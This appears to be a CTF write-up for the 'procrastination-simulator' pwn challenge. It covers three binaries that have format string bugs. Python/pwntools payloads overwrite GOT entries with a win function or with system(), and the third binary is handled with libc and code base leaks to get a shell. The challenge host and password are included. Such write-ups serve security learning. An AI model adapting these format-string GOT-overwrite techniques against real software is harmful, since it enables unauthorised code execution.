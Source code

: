 ## procrastination-simulator
```
procrastination-simulator
point: 430
Oh noes! I partied all weekend and now it's an hour before the CTF ends and I have school deadlines tonight too. Can you help me write 60 reports and pwn 50 challenges by Sunday afternoon? nc auto-pwn.chal.csaw.io 11001 with password cd80d3cd8a479a18bbc9652f3631c61c
```
`nc auto-pwn.chal.csaw.io 11001` then enter the password, we get 
the binary like this:
![given_binary](https://user-images.githubusercontent.com/87422359/133044852-ecc1638d-c82f-4e11-8d92-853e5ead68f6.png)
<br />
we write it to a file then convert it to binary by `xxd -r`<br />
When we pwned and got shell, there was a message on the server give
us another address, port, password. <br />
the binaries are changed 3 times(at port 16, 32, 46), we 
need to pwn all them to get the flag.
<br />
### file_4
![image](https://user-images.githubusercontent.com/87422359/133046641-66cd8285-9bfe-43e3-b136-dd8d0048f8c0.png)
<br />
![image](https://user-images.githubusercontent.com/87422359/133046725-49740c3c-6793-4e24-b3c3-e9ff5ca6392c.png)
<br />
![image](https://user-images.githubusercontent.com/87422359/133046834-aa56ed9a-f9d8-405b-8413-418d22211268.png)
<br />
there are a fsb, and function to get shell.
<br />
what we need to do is overwrite `win()`'s address to `put's got`.
<br />
payload:
<br />
```python
payload  = 'aa'
payload += p32(e.got["exit"])
payload += '%' + str((e.sym['win'] & 0xffff) - 6) + 'd%6$hn'
## send password
r.sendlineafter("password", "cd80d3cd8a479a18bbc9652f3631c61c")
r.sendlineafter('generate a report', payload)
```
![image](https://user-images.githubusercontent.com/87422359/133050190-6ddfbe51-010a-45f7-9050-3f643c7d9c16.png)
### file_2
![image](https://user-images.githubusercontent.com/87422359/133050630-44a7fde5-2f7e-4564-aa28-1c4c01472dd4.png)
<br />
we still have fsb but there is no win function this time.
<br />
![image](https://user-images.githubusercontent.com/87422359/133051357-b5211b7d-7eea-44a1-b9e1-7767891d97c8.png)
<br />
but there is a `/bin/sh` in the binary so i decide to dive into the binary
and i got this
<br />
![image](https://user-images.githubusercontent.com/87422359/133052191-8987d866-8f9f-48fe-84b0-45d96c346765.png)
<br />
same way, but `0x401534` insteal of `win()`'s address.
### file_1
![image](https://user-images.githubusercontent.com/87422359/133052449-5108e99f-145f-4eb2-9523-4c3c1c2b351a.png)
<br />
this time we got 3 times fsb but `PIE enable`, what we
need to do is leak `libc base`, leak `code base` then overwrite `system`'s address
to `printf got`, then enter `/bin/sh`, programe will run `printf('/bin/sh')`
but printf is overwritten so we get `system('/bin/sh')`
<br />
payload:
<br />
```python
## stage 1
payload  = ''
payload += '%45$p %7$p'
p.sendlineafter('> ', payload)

## leaking
p.recvuntil("ntents of Report 1:\n")
leak = int(p.recvuntil(' ').strip(), 16)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
log.info("leak :%s:" % hex(leak))
libc.sym['win'] = one[0]
libc.address = leak - 0x0270b3
log.info("base :%s:" % hex(libc.address))
log.info("win :%s:" % hex(libc.sym['win']))
leak1 = int(p.recvline().strip(), 16) - 156
log.info("target :%s:" % hex(leak1))

## stage 2
payload  = ''
payload += '%' + str(libc.sym["system"] >> 16 & 0xff) + 'd%13$hhn'
payload += '%' + str((libc.sym["system"] & 0xffff) - (libc.sym["system"] >> 16 & 0xff)) + 'd%12$hn'
payload  = payload.ljust(32,'a')
payload += p64(leak1)
payload += p64(leak1 + 2)
p.sendlineafter('s batch!!', payload)

## stage 3
payload  = '/bin/sh'
sleep(1)
p.sendline(payload)
```
